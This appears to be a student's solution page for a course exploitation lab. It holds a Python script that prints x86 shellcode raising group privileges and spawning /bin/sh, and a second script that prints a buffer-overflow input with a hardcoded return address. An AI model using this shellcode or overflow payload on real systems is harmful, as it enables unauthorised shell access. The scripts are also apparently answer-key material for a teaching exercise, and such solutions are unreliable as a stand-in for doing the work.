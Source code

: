 > ![](Project_1.assets/image-20240304204620286.png)


## Solution Files
> [!code] egg
```c
#!/usr/bin/env python3

import sys

# Configure Python to print text strings like byte strings. Don't remove this!
sys.stdout.reconfigure(encoding='latin1')

SHELLCODE = \
    '\x6a\x32\x58\xcd\x80\x89\xc3\x89\xc1\x6a' \
    '\x47\x58\xcd\x80\x31\xc0\x50\x68\x2d\x69' \
    '\x69\x69\x89\xe2\x50\x68\x2b\x6d\x6d\x6d' \
    '\x89\xe1\x50\x68\x2f\x2f\x73\x68\x68\x2f' \
    '\x62\x69\x6e\x89\xe3\x50\x52\x51\x53\x89' \
    '\xe1\x31\xd2\xb0\x0b\xcd\x80'

### YOUR CODE HERE ###
print(SHELLCODE)
```

> [!code] arg
```c
#!/usr/bin/env python3

import sys

# Configure Python to print text strings like byte strings. Don't remove this!
sys.stdout.reconfigure(encoding='latin1')

### YOUR CODE HERE ###
print('A'*36+'\xbc\xff\xdf\xdf'+'A'*24+'\x70')
```
